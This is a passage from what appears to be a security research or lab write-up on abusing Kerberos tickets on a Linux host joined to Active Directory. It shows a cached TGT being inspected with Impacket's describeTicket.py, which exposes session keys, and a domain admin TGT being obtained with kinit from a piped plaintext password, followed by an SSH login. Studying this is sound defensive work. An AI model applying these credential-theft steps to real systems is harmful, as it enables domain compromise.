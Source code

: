 ```
administrator@mercury.local@L-MGRT-APP001:~$ ls -la /tmp/krb5cc_7000500_r9cKSh 
-rw------- 1 administrator@mercury.local domain users@mercury.local 1406 Jul 16 18:54 /tmp/krb5cc_7000500_r9cKSh
```

We'll find that the TGT belongs to the `gatari-ad` user, as expected:

```
~$ describeTicket.py krb5cc_7000500_r9cKSh
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 5ba238ac341ddaddbe2f7e4d98d5114f0887263bb5d7926bd42f0c2006a1b8dc
[*] User Name                     : gatari-ad
[*] User Realm                    : MERCURY.LOCAL
[*] Service Name                  : krbtgt/MERCURY.LOCAL
[...snip...]
[*] KeyType                       : aes256_cts_hmac_sha1_96
[*] Base64(key)                   : W6I4rDQd2t2+L35NmNURTwiHJju115Jr1C8MIAahuNw=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/MERCURY.LOCAL
[*]   Service Realm               : MERCURY.LOCAL
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
```

But, we retain the local privileges of the legitimate `Administrator@mercury.local` user on the system.

```
administrator@mercury.local@L-MGRT-APP001:~$ id
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
```

### Kerberos SSO

Similarly, we can obtain a `TGT` for the `gatari-ad` user, and authenticate to the system using `kinit`:

```
~$ echo 'P@ssw0rd' | kinit 'Administrator'@MERCURY.LOCAL -E
Password for Administrator\@MERCURY.LOCAL@MERCURY.LOCAL: 

~$ ssh 'Administrator@MERCURY.LOCAL'@L-MGRT-APP001.mercury.local -K id
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
```

